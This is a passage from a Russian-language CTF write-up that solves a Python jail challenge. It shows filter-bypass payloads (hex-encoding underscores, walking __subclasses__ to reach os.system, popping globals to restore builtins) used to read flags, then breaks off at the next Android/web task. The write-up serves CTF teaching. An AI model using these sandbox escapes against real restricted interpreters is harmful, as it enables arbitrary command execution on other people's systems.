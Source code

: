 Что делают `print` и `globals` мы уже выяснили. `getattr` позволяет нам получить атрибут объекта не через `.` .Удобненько. А вот `locals` по аналогии с глобалами позволяет нам получить все локальные переменные

```
>>> locals()
{'kolpak': <function f at 0x7fa468a4a3a0>, 'text': 'locals()'}
```

Опа, колпак. Какая-то функция, интересно. Ее можно поизучать. 

```
>>> kolpak()
Otdai kolpak!
```

Функция не принимает аргументов и просто возвращает строку. Казалось бы, что еще можно узнать. Оказывается много чего! В деталях я описывать не буду, но вы можете прочитать подробнее [здесь](https://www.aperikube.fr/docs/inshack_2019/hell_of_a_jail/), а я ограничусь тем, что выведу все константные значения функции:
```
>>> getattr(getattr(kolpak,'\x5f\x5fcode\x5f\x5f'),'co\x5fconsts')
(None, 'CYBERTHON{P0we3_0f_Pyt40n_1ntr0Spec4i0n}', 'Otdai kolpak!')
```

> Здесь запрет на `_` был обойден при помощи hex-кода числа - `\x5f`

В данном задании находился и второй флаг, но уже не в коде программы, а в файловой системе. Пользуясь тем, что можно обойти запрет `_` а так же тем, что пустая строка вполне себе объект, у которого есть родители: 
```
__class__.__mro__[1] -> выходим на object
.__subclasses__() -> выходим на все классы
```

Мы можем получить доступ к модулю os, а затем уже вызывать любые системные команды:
```
getattr(getattr(getattr(getattr(getattr('','\x5f\x5fclass\x5f\x5f'),'\x5f\x5fmro\x5f\x5f')[1],'\x5f\x5fsubclasses\x5f\x5f')()[84],'load\x5fmodule')('os'),'system')('cat\x20flag\x2etxt')
```

`P.S` Один участник нашел еще один интересный способ получить доступ к классам:
```
getattr(globals(),'popitem')()
```
после запуска этой команды заместо нашего урезанно `__builtins__` придет дефолтный, со всеми классами. А дальше уже по накатанной.

## 6. Simple chat (2) (android + web)
### Условие:
```
Мы обнаружили приложение, разрабатываемое одним из бывших участников опасной APT группировки. Нам удалось добыть так же и тестовые данные для входа:

login - test@simplechat.org
password - test_user_12345

Исследуйте приложение на предмет уязвимостей, чтобы помочь следствию найти злоумышленника.

ссылка на apk - https://yadi.sk/d/EWE3N0q1ZQKK8A

P.S в данном задании два флага. (в этом последний символ флага - w)
```
### Как решать?
